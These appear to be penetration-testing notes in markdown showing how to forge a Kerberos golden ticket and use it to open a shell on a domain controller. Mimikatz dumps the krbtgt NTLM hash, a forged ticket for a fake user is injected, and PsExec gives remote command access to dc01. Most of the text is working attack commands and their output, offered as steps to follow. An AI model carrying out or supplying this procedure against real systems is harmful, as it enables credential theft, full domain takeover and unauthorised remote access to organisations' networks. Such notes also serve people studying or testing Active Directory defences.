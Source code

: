 ### Creating a golden ticket to psexec on domain controller

Go into the domain controller and grab the NTLM hash

```powershell
# On the domain controller:
C:\Tools>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May 13 2019 01:35:04
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : fc274a94b36874d2560a7bd332604fab
```

Now on the workstation:

Find the SID first using `whoami /user` without the last part after the `-`.
```powershell
C:\Tools>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May 13 2019 01:35:04
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
```

Now we can launch a command prompt on the domain controller using `psexec` like so:

```cmd
C:\Windows\system32>cd C:\Tools\active_directory

C:\Tools\active_directory>PsExec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\fakeuser
```